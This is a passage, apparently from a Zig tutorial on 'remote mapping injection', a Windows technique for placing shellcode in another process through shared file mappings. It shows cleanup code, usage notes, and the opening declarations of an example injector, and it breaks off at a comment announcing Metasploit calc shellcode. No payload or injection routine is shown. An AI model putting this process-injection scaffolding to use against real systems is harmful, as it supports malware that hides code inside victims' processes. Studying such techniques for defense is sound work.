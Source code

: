 ```zig
// Clean up local mapping
if (pMapLocalAddress) |addr| {
    if (UnmapViewOfFile(addr) == 0) {
        print("[!] UnmapViewOfFile failed: {}\n", .{windows.kernel32.GetLastError()});
    }
}
```

**Important notes:**

- Must be called from the same process that created the mapping
- Does not affect mappings in other processes
- Should be called before closing the file mapping handle
- Failure to unmap can lead to resource leaks

## Complete Example

```zig name=remote_mapping_injection.zig
const std = @import("std");
const print = std.debug.print;
const windows = std.os.windows;
const unicode = std.unicode;

const HANDLE = windows.HANDLE;
const INVALID_HANDLE_VALUE = windows.INVALID_HANDLE_VALUE;
const WINAPI = windows.WINAPI;
const DWORD = windows.DWORD;
const BOOL = windows.BOOL;
const PVOID = windows.PVOID;
const SIZE_T = windows.SIZE_T;
const PBYTE = [*]u8;

const CloseHandle = windows.CloseHandle;

// Memory protection constants
const PAGE_EXECUTE_READWRITE: DWORD = 0x40;

// File mapping constants
const FILE_MAP_WRITE: DWORD = 0x2;
const FILE_MAP_EXECUTE: DWORD = 0x20;

// Process access constants
const PROCESS_ALL_ACCESS: DWORD = 0x001F0FFF;

// Toolhelp32 constants
const TH32CS_SNAPPROCESS: DWORD = 0x00000002;
const MAX_PATH: usize = 260;

const NUMA_NO_PREFERRED_NODE: u32 = 0xffffffff;

const PROCESSENTRY32 = extern struct {
    dwSize: windows.DWORD,
    cntUsage: windows.DWORD,
    th32ProcessID: windows.DWORD,
    th32DefaultHeapID: usize,
    th32ModuleID: windows.DWORD,
    cntThreads: windows.DWORD,
    th32ParentProcessID: windows.DWORD,
    pcPriClassBase: i32,
    dwFlags: windows.DWORD,
    szExeFile: [MAX_PATH]u8,
};

// x64 calc metasploit shellcode
```